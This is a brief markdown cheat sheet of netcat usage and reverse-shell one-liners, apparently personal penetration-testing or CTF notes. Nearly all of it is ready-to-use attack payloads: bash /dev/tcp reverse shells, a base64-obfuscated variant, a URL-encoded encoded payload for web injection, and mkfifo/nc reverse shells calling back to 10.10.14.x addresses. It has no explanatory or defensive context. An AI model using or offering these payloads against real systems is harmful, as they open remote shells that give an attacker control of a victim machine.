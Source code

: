 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
- `setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`
- `bash -i &>/dev/tcp/IP/PORT 0>&1' #`
- `echo $(echo 'bash -i &> /dev/tcp/IP/PORT  <&1' | base64) | base64 -d | bash`


`echo%20"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC4xMjEvNjY2NiA8JjE="%20|%20base64%20-d%20|%20bash`


## NC with pipe over file
`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fsh%20-i%202%3E%261|nc%2010.10.14.176%204443%20%3E%2Ftmp%2Ff`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 6666 >/tmp/f 

